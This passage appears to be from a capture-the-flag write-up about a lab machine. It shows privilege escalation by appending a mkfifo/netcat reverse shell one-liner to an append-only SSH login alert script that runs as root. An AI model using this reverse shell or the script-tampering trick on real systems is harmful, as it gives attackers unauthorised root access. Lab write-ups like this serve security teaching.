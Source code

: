 lets navigate to it 
```bash
munojr@owaspQuiz:/usr/local/sbin$ cat ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@owaspQuiz.thm"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [[ ${PAM_TYPE} == "open_session" ]]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
        exit 1
fi

```

So the script as seen is aimed to run at every ssh login. And after some research, The script runn with root permission.

>[!NOTE]
>The script seems to have some immutable file attributes as shown below. It allows only `append mode!!` using `lsattr` command to view permissions of file.
>

```bash
munojr@owaspQuiz:/usr/local/sbin$ lsattr ssh-alert.sh 
-----a--------e----- ssh-alert.sh
You have new mail in /var/mail/munojr
```

It is bit more confusing if you don't know `Linux`. But after using cat command it is successfully. as bellow.

```bash
munojr@owaspQuiz:/usr/local/sbin$ cat <<EOF >> ssh-alert.sh 
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 1234 >/tmp/f
> EOF
You have new mail in /var/mail/munojr
munojr@owaspQuiz:/usr/local/sbin$ cat ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@owaspQuiz.thm"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [[ ${PAM_TYPE} == "open_session" ]]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
```